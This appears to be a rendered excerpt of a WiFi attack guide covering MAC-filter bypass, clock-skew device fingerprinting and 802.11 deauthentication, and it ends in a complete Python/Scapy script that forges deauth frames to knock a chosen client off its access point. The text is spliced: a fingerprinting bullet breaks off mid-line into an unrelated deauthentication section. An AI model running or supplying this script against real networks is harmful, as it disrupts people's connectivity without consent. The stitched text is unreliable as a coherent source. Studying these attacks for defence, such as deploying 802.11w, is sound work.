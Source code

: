      * **MAC Address Filtering Bypass**:
       * Most MAC filters are implemented at higher layers
       * Physical layer attacks bypass these controls completely
       * For targeted attacks, MAC randomization or specific MAC spoofing may be necessary
       * Multiple virtual interfaces with different MACs can probe filter rules

3. **Physical Layer Identification**

   Beyond the intended communication data, RF signals contain a wealth of unintentional characteristics that can uniquely identify hardware devices.
   
   ```
   Clock Skew Fingerprinting Process
   
   ┌────────────┐     ┌────────────┐     ┌────────────┐     ┌────────────┐
   │ Capture    │     │ Extract    │     │ Calculate  │     │ Compare to │
   │ Beacon     │ → │ Timestamp  │ →  │ Clock Skew │ →  │ Reference  │
   │ Frames     │     │ Field      │     │ Pattern    │     │ Database   │
   └────────────┘     └────────────┘     └────────────┘     └────────────┘
   ```

   - **Clock Skew Analysis### Breaking Connections: Deauthentication Attacks

An elegant yet devastating attack within the WiFi security landscape is the deauthentication attack—a technique that exploits a fundamental trust assumption in the 802.11 protocol. Unlike data frames, which are protected by encryption in modern WiFi networks, management frames remained unauthenticated in most deployments until the relatively recent introduction of Protected Management Frames (PMF) in 802.11w.

This architectural weakness allows an attacker to forge deauthentication frames that force clients to disconnect from their associated access points. These specially crafted packets appear legitimate to both the client and access point, as they contain the correct MAC addresses but require no cryptographic validation. The technique can be selectively targeted at specific clients or broadcast to disconnect all devices on a network simultaneously.

Implementing such an attack is disturbingly straightforward with tools like Scapy, a powerful Python library for network packet manipulation:

```python
#!/usr/bin/env python3
from scapy.all import *
import time

def send_deauth(target_mac, gateway_mac, iface, count):
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, iface=iface, count=count, inter=0.1, verbose=1)

# Example usage
target = "00:11:22:33:44:55"    # Client MAC
gateway = "AA:BB:CC:DD:EE:FF"   # AP MAC
interface = "wlan0mon"          # Monitor mode interface
count = 50                      # Number of deauth packets

send_deauth(target, gateway, interface, count)
```

